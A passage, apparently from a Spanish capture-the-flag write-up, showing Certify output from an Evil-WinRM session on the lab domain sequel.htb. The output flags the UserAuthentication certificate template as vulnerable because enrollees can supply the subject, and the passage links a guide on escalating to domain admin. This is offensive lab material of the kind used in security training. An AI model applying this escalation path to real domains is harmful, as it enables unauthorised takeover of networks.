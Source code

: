 ```bash

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519



Certify completed in 00:00:10.0967993
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> 

```
Usando esta [guía](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin).